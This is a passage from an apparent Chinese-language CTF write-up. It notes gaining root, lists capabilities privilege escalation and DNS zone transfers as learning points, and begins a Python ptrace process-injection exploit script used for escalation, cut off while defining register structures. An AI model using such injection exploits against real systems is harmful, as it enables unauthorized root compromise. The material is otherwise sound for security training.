成功获取root权限

## 知识点

-   Capabilitie提权
    
    [Linux提权之：利用capabilities提权 - f\_carey - 博客园 (cnblogs.com)](https://www.cnblogs.com/f-carey/p/16026088.html)
    
-   DNS主从复制+区域传送
    
    **DNS在区域传输的时候使用TCP协议，其他时候使用UDP协议**
    
    DNS区域传送有两种方式：
    
    -   axfr：完全区域传送
        
    -   ixfr：增量区域传送
        
    
    [DNS主从复制及区域传送 - 风住 - 博客园 (cnblogs.com)](https://www.cnblogs.com/whych/p/9103161.html)
    

## exp

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
```